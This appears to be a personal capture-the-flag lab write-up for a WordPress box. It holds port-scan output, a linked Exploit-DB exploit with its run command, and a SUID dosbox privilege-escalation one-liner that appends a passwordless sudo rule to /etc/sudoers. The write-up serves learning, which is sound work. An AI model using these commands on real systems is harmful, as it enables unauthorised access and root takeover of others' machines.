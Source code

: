 Linux ttl=61

# rustscan

```
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 61
80/tcp    open  http    syn-ack ttl 61
36445/tcp open  unknown syn-ack ttl 61
```

# nmap

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:6a:f5:d3:30:08:7a:ec:38:28:a0:88:4d:75:da:19 (RSA)
|   256 43:3b:b5:bf:93:86:68:e9:d5:75:9c:7d:26:94:55:81 (ECDSA)
|_  256 e3:f7:1c:ae:cd:91:c1:28:a3:3a:5b:f6:3e:da:3f:58 (ED25519)
80/tcp    open  http        Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.10
|_http-generator: WordPress 5.5.1
|_http-title: Retro Gamming &#8211; Just another WordPress site
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, HTTPOptions, Help, Kerberos, LDAPSearchReq, NCP, NULL, NotesRPC, RPCCheck, SIPOptions, SMBProgNeg, SSLSessionReq, TerminalServerCookie, WMSRequest: 
|_    Host '192.168.45.163' is not allowed to connect to this MariaDB server
5000/tcp  open  http        Werkzeug httpd 1.0.1 (Python 3.8.5)
|_http-server-header: Werkzeug/1.0.1 Python/3.8.5
|_http-title: 404 Not Found
13000/tcp open  http        nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Login V14
36445/tcp open  netbios-ssn Samba smbd 4.6.2
```

# initial

80 has wordpress site and usually people get `simple file list` plugin but i didn't got it so just looked at walkthrough

https://www.exploit-db.com/exploits/48979

usage is simple, just change IP & port and run it

```
python3 48979.py http://192.168.182.105/
```

----------

```
wpscan --url http://192.168.182.105/
```

using simple `wpscan` it showed up!

![[Pasted image 20240628025543.png]]
# priv esc

got www-data shell

![[Pasted image 20240628025205.png]]

got in as commander

![[Pasted image 20240628025234.png]]

dosbox SUID

```
LFILE='/etc/sudoers'
/usr/bin/dosbox -c 'mount c /' -c "echo commander ALL=(ALL) NOPASSWD: ALL >> c:$LFILE" -c exit
```